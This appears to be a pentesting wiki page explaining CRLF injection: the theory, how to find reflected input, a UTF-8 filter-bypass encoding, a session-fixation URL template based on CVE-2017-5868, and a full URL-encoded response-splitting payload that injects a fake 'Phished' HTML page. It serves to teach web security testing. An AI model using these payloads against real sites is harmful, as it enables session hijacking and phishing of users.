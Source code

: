 ```yaml
---
authors: KenjiEndo15, ShutdownRepo
category: web
---
```


# 🛠️ CRLF injection

## Theory

CRLF represents termination of line:

* CR = Carriage Return (`\r`)
* LF = Line Feed (`\n`)

Windows and the protocol HTTP uses the CRLF however, Linux doesn't (it only uses LF). The CRLF injection is a type of attack where an attacker injects a termination of line into an application (via HTTP or URL) to provoke other types of vulnerability (HTTP Response Splitting, Log Injection...).

## Practice

### HTTP Response Splitting

#### Reconnaissance

Important: before even considering a CRLF injection, testers have to find any data that is sent in a request and reflected in the response (that follows the previous request). \
An example by [SecureFlag](https://knowledge-base.secureflag.com/vulnerabilities/inadequate_input_validation/http_response_splitting_vulnerability.html) considers an application that in case of error (`/?error=Page+Not+found`), redirects the user using the `Location` HTTP header while reflecting the value of the `error` parameter:

```bash
# Response (due to an application error)
HTTP/1.1 301 Moved Permanently
Location: /index?error=Page+Not+Found
```

From cases similar to this one, testers have to find a place where CRLF injection is possible, such as:

* URL: `https://example.com/<CRLF_injection>`
* Query parameter: `https://example.com/lang=en<CRFL_injection>`

Upon using a CRLF injection, testers can inject arbitrary HTTP headers.

Filter bypass: one can [bypass filters](https://blog.innerht.ml/twitter-crlf-injection/) using UTF-8 encoding

* CRLF = %E5%98%8A%E5%98%8D

#### Session fixation

A good example of session fixation (with CRLF injection) comes from the CVE-2017-5868 and is explained in this [post](https://sysdream.com/news/lab/2017-05-05-cve-2017-5868-openvpn-access-server-crlf-injection-with-session-fixation/).

1. An attacker notice that the parameter `__session_start` in OpenVPN is vulnerable to CRLF injection.
2. The attacker crafts an URL by setting a cookie:

 ```
https://example.com/__session_start__/<CRLF_injection>Set-Cookie:<Cookie>[...]
 ```
3. The attacker sends this crafted URL to a victim.
4. The victim opens the URL and authenticates itself. Once authenticated, the cookie will be associated with its session.
5. The attacker can now use the cookie with the fixed session to access the victim's profile.

#### Cross-Site Scripting (XSS)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CRLF%20Injection) has an interesting payload to write a document, and therefore include an XSS.

Requested page:

```
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response:

```
Set-Cookie:en
Content-Length: 0
​
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34
​
<html>You have been Phished</html>
```

## Resources

[https://www.acunetix.com/websitesecurity/crlf-injection/](https://www.acunetix.com/websitesecurity/crlf-injection/)

[https://www.netsparker.com/blog/web-security/crlf-http-header/](https://www.netsparker.com/blog/web-security/crlf-http-header/)

[https://owasp.org/www-community/vulnerabilities/CRLF_Injection](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)

[https://www.srccodes.com/log-forging-by-crlf-log-injection-owasp-security-vulnerability-attacks-crlf//](https://www.srccodes.com/log-forging-by-crlf-log-injection-owasp-security-vulnerability-attacks-crlf//)

[https://sysdream.com/news/lab/2017-05-05-cve-2017-5868-openvpn-access-server-crlf-injection-with-session-fixation/](https://sysdream.com/news/lab/2017-05-05-cve-2017-5868-openvpn-access-server-crlf-injection-with-session-fixation/)

[https://knowledge-base.secureflag.com/vulnerabilities/inadequate_input_validation/http_response_splitting_vulnerability.html](https://knowledge-base.secureflag.com/vulnerabilities/inadequate_input_validation/http_response_splitting_vulnerability.html)

[https://blog.innerht.ml/overflow-trilogy/](https://blog.innerht.ml/overflow-trilogy/)

[https://blog.innerht.ml/twitter-crlf-injection/](https://blog.innerht.ml/twitter-crlf-injection/)

[https://www.geeksforgeeks.org/crlf-injection-attack/](https://www.geeksforgeeks.org/crlf-injection-attack/)